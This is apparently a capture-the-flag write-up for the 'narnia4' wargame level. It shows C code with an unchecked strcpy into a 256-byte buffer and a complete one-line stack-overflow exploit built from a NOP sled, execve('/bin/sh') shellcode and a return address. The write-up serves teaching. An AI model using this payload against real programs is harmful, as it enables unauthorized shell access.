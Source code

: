 ```c
int i;
char buffer[256];

for(i = 0; environ[i] != NULL; i++)
	memset(environ[i], '\0', strlen(environ[i]));

if(argc>1)
	strcpy(buffer,argv[1]);
```

This block of code overwrites the current set of environment variables with 0 and then copies the contents of `argv[1]` into `buffer`.

Buffer is 256 bytes long, so we need to construct:

 * a comfortable NOP sled
 * our shellcode
 * the address of... some part of the NOP sled.

```
./narnia4 $(python -c'print "\x90" * 247 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80" + "\xa0\xd8\xff\xff"')
```
